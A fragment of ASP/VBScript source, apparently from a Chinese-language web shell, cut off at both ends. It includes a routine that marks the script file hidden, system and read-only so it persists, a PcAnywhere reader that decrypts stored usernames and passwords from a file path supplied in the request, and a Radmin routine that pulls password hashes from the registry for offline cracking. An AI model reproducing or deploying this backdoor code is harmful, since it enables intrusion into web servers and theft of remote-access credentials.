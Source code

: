 If Mid(strin, i, 1) = "b" Or Mid(strin, i, 1) = "B" Then 
 j = 11 
End If 
If Mid(strin, i, 1) = "a" Or Mid(strin, i, 1) = "A" Then 
 j = 10 
End If 
If Mid(strin, i, 1) <= "9" And Mid(strin, i, 1) >= "0" Then 
 j = CInt(Mid(strin, i, 1)) 
End If 
For k = 1 To Len(strin) - i 
 j = j * 16 
Next 
result = result + j 
Next 
hexdec = result 
End Function 
sub promyself()
On Error Resume Next 
set f=fso.GetFile(ScriptPath)
if f.Attributes <> 39 and session("lock")="" then
f.Attributes=1+2+4+32
end if
set f=nothing
end sub
promyself
Function PcAnywhere(data,mode)
HASH= Mid(data,3)
If mode = "pass" Then number = 32: Cifnum = 144
If mode = "user" Then number = 30: Cifnum = 15
For i = 1 To number Step 2 
pcstr=((hexdec(Mid(data,i,2)) xor hexdec(Mid(hash,i,2))) xor Cifnum)
If ((pcstr <= 32) Or (pcstr>127)) Then Exit For 
decode = decode + Chr(pcstr)
Cifnum=Cifnum+1
Next 
PcAnywhere=decode
End function
Function bin2hex(binstr)
For i = 1 To LenB(binstr)
hexstr = Hex(AscB(MidB(binstr, i, 1)))
If Len(hexstr)=1 Then 
bin2hex=bin2hex&"0"&(LCase(hexstr))
Else
bin2hex=bin2hex& LCase(hexstr)
End If 
Next
End Function
CIF = Request("path")
If CIF <> "" Then 
BinStr=StreamLoadFromFile(CIF) 
j"Pcanywhere Reader ==><br><br>PATH:"&CIF&"<br>帐号:"&PcAnywhere (Mid(bin2hex(BinStr),919,64),"user")
j"<br>密码:"&PcAnywhere (Mid(bin2hex(BinStr),1177,32),"pass")
End If 
Function radmin()
Set WSH= Server.CreateObject("WSCRIPT.SHELL")
RadminPath="HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters\"
Parameter="Parameter"
Port = "Port"
j"<br>注意:读出HASH值后用RadminHash工具或od调试连接<br><br>"
ParameterArray=WSH.REGREAD(RadminPath & Parameter )
j Parameter&":"
If IsArray(ParameterArray) Then
For i = 0 To UBound(ParameterArray)
If  Len (hex(ParameterArray(i)))=1 Then 